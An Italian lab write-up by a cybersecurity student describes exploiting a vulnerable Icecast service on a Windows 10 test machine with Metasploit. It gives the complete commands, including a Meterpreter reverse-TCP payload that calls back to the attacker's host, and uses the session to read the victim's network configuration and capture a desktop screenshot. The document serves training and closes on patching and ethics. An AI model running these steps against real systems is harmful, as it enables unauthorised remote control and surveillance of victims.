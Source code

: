 # Consegna S7/L4: Utilizzo di Metasploit per sfruttare Icecast su Windows 10

## 📝 **Introduzione**
Questa relazione documenta l'uso di Metasploit per ottenere una sessione **Meterpreter** su un sistema Windows 10 vulnerabile con Icecast in esecuzione. L'obiettivo era sfruttare una vulnerabilità nota di Icecast per:

- 📍 Identificare l'indirizzo IP della vittima.
- 🖼️ Acquisire uno screenshot del desktop della vittima.

## 🛠️ **Setup dell'ambiente**

- **Macchina attaccante:** Kali Linux  
  - **IP:** `192.168.50.165`
- **Macchina vittima:** Windows 10 con Icecast in esecuzione  
  - **IP:** `192.168.50.6`
- **Strumenti utilizzati:** Metasploit Framework

## 🔍 **Analisi e Preparazione**
Prima di iniziare l'attacco, ho verificato che il servizio Icecast fosse attivo sulla macchina Windows:

1. Ho avviato Icecast sulla macchina Windows, confermando che fosse in ascolto sulla porta predefinita `8000`.
2. Con un rapido **Nmap**, ho controllato che la porta fosse effettivamente aperta:
   ```bash
   nmap -p 8000 192.168.50.6
   ```
   - Risultato: la porta era aperta e il servizio Icecast attivo.

## ⚙️ **Esecuzione dell'attacco**

1. **Avvio di Metasploit**
   Ho avviato il framework Metasploit sulla macchina Kali con il comando:
   ```bash
   msfconsole
   ```

2. **Caricamento dell'exploit**
   Ho scelto l'exploit `icecast_header` specifico per Icecast:
   ```bash
   use exploit/windows/http/icecast_header
   ```

3. **Configurazione dei parametri**
   Ho configurato le seguenti opzioni per l'attacco:
   ```bash
   set RHOSTS 192.168.50.6
   set RPORT 8000
   set payload windows/meterpreter/reverse_tcp
   set LHOST 192.168.50.165
   set LPORT 4444
   ```

4. **Lancio dell'exploit**
   Dopo aver verificato le configurazioni con `show options`, ho eseguito l'exploit:
   ```bash
   exploit
   ```
   - **Risultato:** Sessione Meterpreter aperta con successo!

   ![Sessione Meterpreter](./MeterpreterWin10.png)

## 🎯 **Obiettivi raggiunti**

1. **Identificazione dell'indirizzo IP**
   Ho utilizzato il comando `ipconfig` nella sessione Meterpreter per visualizzare l'indirizzo IP della vittima:
   ```bash
   ipconfig
   ```
   - **Output:** Mostrava l'indirizzo IP della vittima `192.168.50.6`.

2. **Acquisizione dello screenshot**
   Per ottenere un'immagine del desktop della vittima, ho eseguito:
   ```bash
   screenshot
   ```
   - **Risultato:** Lo screenshot è stato salvato con successo sulla macchina attaccante.

   ![Screenshot Desktop](./MeterpreterWin10.png)

## 🤔 **Riflessioni personali**

Questo esercizio mi ha permesso di comprendere meglio:

- 🕵️‍♂️ L'importanza della ricognizione e della preparazione prima di eseguire un exploit.
- 🔒 Le implicazioni di sicurezza di servizi non aggiornati come Icecast.
- 🛡️ La necessità di un approccio etico nell'uso di strumenti potenti come Metasploit.

La combinazione di analisi, configurazione accurata e utilizzo degli strumenti giusti ha reso possibile il successo dell'attacco. 

## 📂 **Struttura del progetto**

- `README.md`: Questo file, documentazione dell'esercizio.
- `MeterpreterWin10.png`: Screenshot catturato tramite Meterpreter.

## 🚀 **Conclusioni**

Questo esercizio dimostra quanto sia cruciale mantenere aggiornati i sistemi per prevenire vulnerabilità note. Come aspirante Ethical Hacker, continuo a rafforzare le mie competenze per identificare e mitigare tali rischi.

---
**Autore:** Sebastiano  
**Data:** 19 dicembre 2024
